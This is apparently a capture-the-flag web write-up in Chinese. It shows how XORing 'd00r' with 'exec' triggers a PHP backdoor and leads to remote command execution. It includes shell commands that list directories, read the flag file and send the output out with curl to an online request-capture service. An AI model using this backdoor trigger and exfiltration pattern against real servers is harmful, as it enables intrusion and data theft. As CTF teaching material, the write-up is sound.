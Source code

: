 ## WEB 解法
先把檔案放到 local 端做測試，先上網找 [php danger function](https://stackoverflow.com/questions/3115559/exploitable-php-functions)，決定用 exec
先解出什麼東西 ^ d00r 會是 exec:
```
i = b'd00r'
j = b'exec'
print(bytes([i ^ j for i, j in zip(i, j)]))
```
結果為 b'\x01HU\x11' ，所以 GET 送 %01HU%11，post 就可以放要執行的 shell 指令。
"_\x50\x4f\x53\x54" 為 _POST , c 為 ＃ ，因此可以送出指令，我這邊用免費的線上 [request server](https://requestbin.com/) 送出指令
先傳 `ls …/…/…/ > /tmp/rar.txt | /tmp/qq.txt & curl -X POST -T /tmp/rar.txt` 測出 flag 的位置，再傳 `cat ../../../flag_is_here  >> /tmp/qq.txt & curl -X POST -T /tmp/qq.txt` 就能得到 flag 了。
(/temp 沒有擋寫入檔案)
